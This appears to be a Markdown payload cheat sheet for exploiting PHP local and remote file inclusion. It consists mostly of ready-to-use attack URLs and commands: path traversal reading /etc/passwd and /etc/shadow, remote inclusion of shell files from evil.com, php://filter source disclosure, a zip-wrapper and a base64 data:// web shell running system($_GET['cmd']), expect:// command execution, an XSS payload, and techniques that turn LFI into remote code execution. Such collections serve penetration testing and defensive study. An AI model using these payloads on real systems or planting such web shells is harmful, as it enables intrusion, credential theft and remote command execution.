 # Local/Remote File Inclusion
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application.

## Basic LFI (null byte, double encoding and other tricks)
```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd
```

Interesting files to check out :
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
```

## Basic RFI (null byte, double encoding and other tricks)
```
http://example.com/index.php?page=http://evil.com/shell.txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```



## LFI / RFI Wrappers

LFI Wrapper rot13 and base64 - php://filter case insensitive
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

can be chained with a compression wrapper
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```


LFI Wrapper ZIP
```python
echo "</pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
mv payload.zip shell.jpg;    
rm payload.php   

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```


RFI Wrapper DATA with "<?php system($_GET['cmd']);echo 'Shell done !'; ?>" payload
```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```

RFI Wrapper EXPECT
```
http://example.com/index.php?page=php:expect://id
http://example.com/index.php?page=php:expect://ls
```

## Bonus XSS
XSS via RFI/LFI with "<svg onload=alert(1)>" payload
```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

## LFI to RCE via /proc/*/fd
1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD
with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)


## LFI to RCE via Upload
```
http://example.com/index.php?page=path/to/uploaded/file.png
```
You can injected the <?php system($_GET['c']); ?> into the metadata

## LFI to RCE via Phpinfo()
https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf
Use the script phpInfoLFI.py (also available at https://www.insomniasec.com/downloads/publications/phpinfolfi.py)


## Thanks to
* [OWASP LFI](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion)
* [HighOn.coffee LFI Cheat](https://highon.coffee/blog/lfi-cheat-sheet/)
* [Turning LFI to RFI ](https://l.avala.mp/?p=241)
* [Is PHP vulnerable and under what conditions?](http://0x191unauthorized.blogspot.fr/2015/04/is-php-vulnerable-and-under-what.html)
